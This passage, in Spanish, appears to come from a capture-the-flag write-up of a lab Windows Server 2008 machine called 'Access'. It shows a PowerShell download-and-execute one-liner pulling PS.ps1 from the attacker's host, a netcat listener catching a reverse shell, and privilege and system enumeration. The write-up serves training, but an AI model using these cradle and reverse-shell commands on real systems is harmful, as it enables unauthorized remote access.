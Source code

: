 ```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.98 - - [02/Jan/2022 17:15:26] "GET /PS.ps1 HTTP/1.1" 200 -
```

```bash
C:\Users\security>powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.27/PS.ps1')
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.98] 49158
Windows PowerShell running as user security on ACCESS
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
access\security
PS C:\Users\security>
```

Ahora si, vamos a enumrar un poco el sistema.

```bash
PS C:\Users> whoami /priv                                                                                                            [111/111]
                                                                
PRIVILEGES INFORMATION                                          
----------------------                                          
                                                                
Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

PS C:\Users> systeminfo                                                      
                                                                
Host Name:                 ACCESS         
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600                                                                               
OS Manufacturer:           Microsoft Corporation                                                                                 
OS Configuration:          Standalone Server                                                                                     
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User       
Registered Organization:                                        
Product ID:                55041-507-9857321-84191      
Original Install Date:     8/21/2018, 9:43:10 PM        
System Boot Time:          1/2/2022, 10:19:14 PM                                                                                 
System Manufacturer:       VMware, Inc.   
System Model:              VMware Virtual Platform
System Type:               x64-based PC   
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows                           
System Directory:          C:\Windows\system32     
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC) Dublin, Edinburgh, Lisbon, London
```